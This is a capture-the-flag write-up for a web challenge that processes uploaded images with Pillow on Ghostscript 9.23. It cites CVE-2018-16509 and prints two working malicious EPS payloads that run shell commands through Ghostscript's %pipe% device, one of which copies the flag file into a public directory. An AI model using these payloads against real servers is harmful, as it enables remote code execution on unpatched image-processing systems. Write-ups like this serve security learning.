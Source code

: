 1. After we analyzed this simple web application, we found that
   - The flag file was not used/included in the application, but the whole `challenge` was copied into the docker.
   - It only had one API, `POST /upload`, in `application/blueprints/routes.py`.
   - The app's directory would seem like `/app/application/static/petpets` according to `config.py`
   - The `allowed_file` checks file extension but we didn't intend to use file upload on python server.
   - The only special function in the application is `petpet` in `application/util.py`.
   - `petpet` uses the `PIL` to do the image processing, and the package used was described in `Dockerfile`. It used `ghostscript-9.23` for its Pillow component.

2. After googling the `ghostscript 9.23 exploit`, we found [CVE-2018-16509](https://www.cvedetails.com/cve/CVE-2018-16509/) and an [example](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509).

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

3. Since the web server didn't return our uploaded image directory, we cannot use `cat` to output the `flag` file. Thus, we will use `cp` to send the `flag` to `static` directory to allow public access.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cp /app/flag /app/application/static/flag) currentdevice putdeviceprops
```

4. Then, we accessed `/static/flag` to get the flag.